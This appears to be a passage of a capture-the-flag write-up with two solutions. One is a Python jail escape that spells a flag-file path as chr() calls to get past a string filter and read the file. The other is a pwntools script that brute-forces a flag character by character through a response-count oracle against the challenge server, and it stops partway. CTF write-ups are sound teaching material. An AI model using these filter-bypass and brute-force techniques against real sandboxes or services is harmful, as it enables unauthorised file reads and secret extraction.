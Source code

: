 ![](attachment/8c1ca2a1b49e07242fcb1804a60c6085.png)

> [!NOTE] String to ascii filter bypass
> Another way from the official writeup
> ```python
> a = './Mljail/flag.txt'
s = ""
for c in a:
  s += f"chr({str(ord(c))})+"
print(s[:-1])
> ```
> Exploit
> ```python
> print(open(chr(46)+chr(47)+chr(77)+chr(76)+chr(106)+chr(97)+chr(105)+chr(108)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116), 'r').read())
> ```
## Flag Finder

### Info

All you have to do is guess the flag.

_Flag format: pctf{}_

_Author: @shadowbringer007_

`nc chal.pctf.competitivecyber.club 4757`
### Solve

Not an ideal way to achieve concurrency, but gets the thing done under 1 minute

```python
import string
from pwn import remote, info, context
from concurrent.futures import ThreadPoolExecutor


# Surpress debug info
context.log_level = "ERROR"
flag = "pctf{"


def try_char(c:str, length: int):
    global flag
    if len(flag) == length:
        return
    
    payload = (flag + c).ljust(19, '~').encode()
    print(f"[*] Tying : {payload}")
    
    io = remote('chal.pctf.competitivecyber.club', 4757)
    io.sendline(payload)
    res = io.recvall()
    
    if res.decode().count('User input') == length:
        if len(flag) == length:
            return
        flag = flag + c
```